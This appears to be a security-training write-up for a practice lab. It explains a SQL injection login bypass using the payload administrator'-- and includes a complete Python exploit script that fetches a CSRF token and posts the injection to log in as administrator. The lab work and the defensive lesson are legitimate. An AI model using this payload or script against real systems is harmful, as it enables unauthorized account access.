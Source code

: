 ```yaml
---
title: 'SQLi Lab 02'
description: 'Bypassing authentication through classic SQL injection on a vulnerable login form.'
---
```



## SQL injection vulnerability allowing login bypass

<div style="text-align: justify;">
  In this lab, I exploited a classic SQL injection vulnerability in a login form to bypass authentication. By injecting malicious input directly into the username field, I was able to manipulate the backend SQL query and log in as the administrator—without needing the actual password. This vulnerability highlights the critical importance of sanitizing user input and using parameterized queries to prevent injection attacks.

  The bypass was achieved using a simple payload that comments out the password check portion of the SQL query. It was also essential to dynamically extract the CSRF token from the login page, as the application enforced token-based protection for form submissions.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The login form input is vulnerable to SQL injection.
- Use a crafted username: `administrator'--` to bypass password validation.
- The server executes a manipulated SQL query and logs you in as the administrator.
- CSRF token is fetched dynamically to make a valid login attempt.
- A successful login is confirmed when the usual "Invalid username or password" error does not appear.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    uri = "/login"
    r = s.get(url + uri , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input") ['value']
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf": csrf,
            "username": payload,
            "password": payload}
    uri = "/login"
    r = s.post(url + uri, data=data, verify=False, proxies=proxies)
    res = r.text
    
    if "Invalid username or password." in res:
        return False
    else:
        return True
    
if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        sqli_payload = "administrator'--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' %sys.argv[0])
        
    s = requests.Session()
    
    if exploit_sqli(s, url, sqli_payload):
        print("[+] SQL injection successful! We have logged in as the administrator user.")
    else:
        print("[-] SQL injection unsuccessful.")
```


<Comment />
